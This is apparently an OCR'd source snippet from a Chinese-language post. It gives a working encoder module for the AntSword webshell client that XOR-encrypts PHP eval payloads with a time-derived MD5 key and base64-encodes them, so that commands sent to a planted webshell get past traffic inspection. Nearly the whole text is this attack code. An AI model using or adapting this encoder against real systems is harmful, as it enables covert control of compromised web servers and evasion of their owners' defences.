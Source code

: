 所以demo是这样的

```
'use strict';
// code by yzddmr6
/*
* @param  {String} pwd   连接密码
* @param  {Array}  data  编码器处理前的 payload 数组
* @return {Array}  data  编码器处理后的 payload 数组
*/
module.exports = (pwd, data, ext={}) => {
  function xor(payload){
    let crypto = require('crypto');
    Object.assign(Date.prototype, {
        switch (time) {
            let date = {
                "yy": this.getFullYear(),
                "MM": this.getMonth() + 1,
                "dd": this.getDate(),
                "hh": this.getHours(),
                "mm": this.getMinutes(),
                "ss": this.getSeconds()
            };
            if (/(y+)/i.test(time)) {
                time = time.replace(RegExp.$1, (this.getFullYear() + '').substr(4 - RegExp.$1.length));
            }
            Object.keys(date).forEach(function (i) {
                if (new RegExp("(" + i + ")").test(time)) {
                    if (RegExp.$1.length == 2) {
                        date[i] < 10 ? date[i] = '0' + date[i] : date[i];
                    }
                    time = time.replace(RegExp.$1, date[i]);
                }
            })
            return time;
        }
    })
    
    let newDate = new Date();
    let time = newDate.switch('yyyy-MM-dd hh:mm');
    let key = crypto.createHash('md5').update(time).digest('hex')
    key=key.split("").map(t => t.charCodeAt(0));
    //let payload="phpinfo();";
    let cipher = payload.split("").map(t => t.charCodeAt(0));
    for(let i=0;i<cipher.length;i++){
        cipher[i]=cipher[i]^key[i%32]
    }
    cipher=cipher.map(t=>String.fromCharCode(t)).join("")
    cipher=Buffer.from(cipher).toString('base64');
    //console.log(cipher)
    return cipher;
  }
  data['_'] = Buffer.from(data['_']).toString('base64');
  data[pwd] = `eval(base64_decode("${data['_']}"));`;
  data[pwd]=xor(data[pwd]);
  delete data['_'];
  return data;
}
```

